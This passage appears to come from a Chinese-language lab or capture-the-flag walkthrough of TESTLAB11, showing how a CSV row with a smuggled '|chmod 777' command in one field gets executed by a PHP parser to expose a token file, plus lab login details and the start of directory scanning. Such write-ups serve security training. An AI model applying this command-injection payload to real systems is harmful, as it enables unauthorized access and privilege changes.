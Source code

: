 在`172.16.0.17`中写入`python -c 'print "Name;Surname;In;Out;ID\nJack;KKB;1501118352.0|chmod 777 /var/www/html/token.sec;1501121952.0;38611"' `到db.csv，`172.16.0.16`中的ftpclient.py获取的就是写入的命令，且parse.php获取db.csv数据时就是执行了写入的python语句，172.16.0.16上的token.sec改变了读写权限，即本地用户权限也能读取。

```bash
python -c 'print "Name;Surname;In;Out;ID\nFuck;MMP;1201118352.0|chmod 777 /var/www/html/token.sec;1591121952.0;38611"' > db.csv
```

![](/img/game/TESTLAB/TESTLAB11/172_16_0_17_写入db_csv_python_语句.png)

使用`admin@11.lab ：admin`登陆`http://172.16.0.16/parse.php?auth=asdfgtgrfedQWERsdfd`，刷新页面，最终查看token.sec，就得到了flag为`Access_Granted!`

![](/img/game/TESTLAB/TESTLAB11/172_16_0_16_token_sec.png)

### Helpdesk Token

使用dirbuster扫描web文件目录,扫描到多个登陆界面，尝试弱口令都无果。后`http://192.168.11.3/_admin/login.php`,尝试弱口令也不行。


![](/img/game/TESTLAB/TESTLAB11/192_168_11_3_web.png)
